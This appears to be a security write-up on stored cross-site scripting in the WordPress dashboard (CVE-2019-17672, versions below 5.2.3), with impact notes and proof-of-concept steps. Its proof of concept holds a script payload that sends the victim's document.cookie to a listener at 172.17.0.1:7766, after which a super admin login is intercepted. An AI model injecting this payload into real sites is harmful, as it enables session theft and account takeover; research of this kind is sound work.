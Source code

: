 
## Impact

- **Sensitive information disclosure**: It can be used to obtain the user’s session cookies or any data related to the victim's browser.
- **Phishing Attack**: It can be used as a phishing attack by redirecting the user to a malicious form submission page to steal credentials.

## Detail explanation

I researched this CVE and didn’t find clear information about this vulnerability so I assess the same WordPress version for the vulnerability and found Stored XSS in the post section of the dashboard.

## Proof Of Concept (POC)

WordPress Version should be below 5.2.3

![Untitled](images/Untitled%208.png)

Go to your WordPress DashBoard’s Pages Section.

![Untitled](images/Untitled%209.png)

Inject malicious JavaScript Payload.

```bash
<script> document.write('<img src=http://172.17.0.1:7766?c=' + escape(document.cookie))</script>
```

Now login with the super admin account.

![Untitled](images/Untitled%2010.png)

Intercept the cookie.

![Untitled](images/Untitled%2011.png)

# [CVE-2019-17672](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17672)

## Introduction

The vulnerability was found by an individual in the dashboard of WordPress.

- What is Stored XSS?
    
    XSS(Cross-Site Scripting) is an attack where we can inject javascript code in the web application to use that web app for malicious purposes. Stored/Persistent XSS is stored in the database and whenever that webpage is visited by anyone that XSS payload from the database is injected into their webpage.
    